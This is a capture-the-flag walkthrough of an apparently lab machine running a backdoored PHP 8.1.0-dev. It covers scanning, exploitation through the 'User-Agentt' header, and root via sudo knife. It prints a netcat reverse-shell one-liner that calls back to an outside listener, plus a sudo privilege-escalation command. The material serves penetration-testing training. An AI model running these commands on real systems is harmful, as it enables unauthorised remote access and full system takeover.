 <b>

# Information Gathering
I started by pinging the box 4 times to ensure stable connection
`ping -c 4 10.10.10.242`
```
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=108 ms
64 bytes from 10.10.10.242: icmp_seq=2 ttl=63 time=109 ms
64 bytes from 10.10.10.242: icmp_seq=3 ttl=63 time=110 ms
64 bytes from 10.10.10.242: icmp_seq=4 ttl=63 time=109 ms
```
After confirming good connection i ran `nmap` with `-Pn` to skip testing if the target is alive and `-sVC` for version and additional information
`nmap -sVC -Pn 10.10.10.242`
```
Nmap scan report for 10.10.10.242
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I also ran `whatweb` with `-a 3` for aggressive (comprehensive) information gathering about the website
`whatweb -a 3 10.10.10.242`
```
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
The website didn't appear to have any links or directories so i try dirbusting with `feroxbuster` but no use either
`feroxbuster -r -k -E -g -C 400,403,404 --auto-tune -u http://10.10.10.242/`
```
200      GET      220l      526w     5815c http://10.10.10.242/
[####################] - 68s    30002/30002   0s      found:1       errors:0      
[####################] - 67s    30000/30000   447/s   http://10.10.10.242/ 
```
I try `dirsearch` just to be sure but no luck either
`dirsearch -F --crawl -u http://10.10.10.242/`
```
[12:10:02] 403 -  277B  - /.ht_wsr.txt                                      
[12:10:02] 403 -  277B  - /.htaccess.bak1                                   
[12:10:02] 403 -  277B  - /.htaccess.orig                                   
[12:10:02] 403 -  277B  - /.htaccess.sample                                 
[12:10:02] 403 -  277B  - /.htaccess.save
[12:10:02] 403 -  277B  - /.htaccess_extra                                  
[12:10:02] 403 -  277B  - /.htaccess_orig
[12:10:02] 403 -  277B  - /.htaccessBAK
[12:10:02] 403 -  277B  - /.htaccessOLD
[12:10:02] 403 -  277B  - /.htaccessOLD2
[12:10:02] 403 -  277B  - /.htaccess_sc
[12:10:02] 403 -  277B  - /.htm                                             
[12:10:02] 403 -  277B  - /.html
[12:10:02] 403 -  277B  - /.htpasswd_test                                   
[12:10:02] 403 -  277B  - /.htpasswds                                       
[12:10:02] 403 -  277B  - /.httr-oauth                                      
[12:10:44] 403 -  277B  - /server-status                                    
[12:10:44] 403 -  277B  - /server-status/ 
```
# Vulnerability Assessment
The server was running `Apache 2.4.41` and using `PHP 8.1.0-dev`
Looking up `php 8.1.0 exploit` leads to this:<br>
https://www.exploit-db.com/exploits/49933

The cause of the exploit was an early realease which contained a backdoor<br>
The backdoor was removed but any server that still runs this version allows an attacker to execute arbitrary code by sending the `User-Agentt` header
# Exploitation
Running the exploit, it asked for full URL: `http://10.10.10.242/`
After that it spawned `pseudo shell`
# Post-Exploitation
The job control is turned off so i couldn't spawn interactive shell no matter what i tried:
`/bin/sh -i`
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
`perl —e 'exec "/bin/sh";'`

In that case, i opened `netcat` listner on port 4444 and executed reverse shell on the `pseudo shell`
`nc -lvnp 4444` (listener)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f` (reverse shell)

Having reverse shell from `nc`, i upgraded to `interactive shell`
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

There was only 1 directory inside `/home` called `james` (which is who we are - `whoami`)<br>
The user flag can be found inside `/home/james/user.txt`
After that i started checking common things but the exploits for them didn't work
- `sudo --version` (sudo version)
- `uname -a` (system information)

Running `sudo -l` to see what i can run as sudo led to this
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Looking up `usr/bin/knife exploit` gave me this:<br>
https://gtfobins.github.io/gtfobins/knife/

Running the `sudo knife exec -E 'exec "/bin/sh"'` allowed me to become root
The flag was located at `/root/root.txt`
</b>
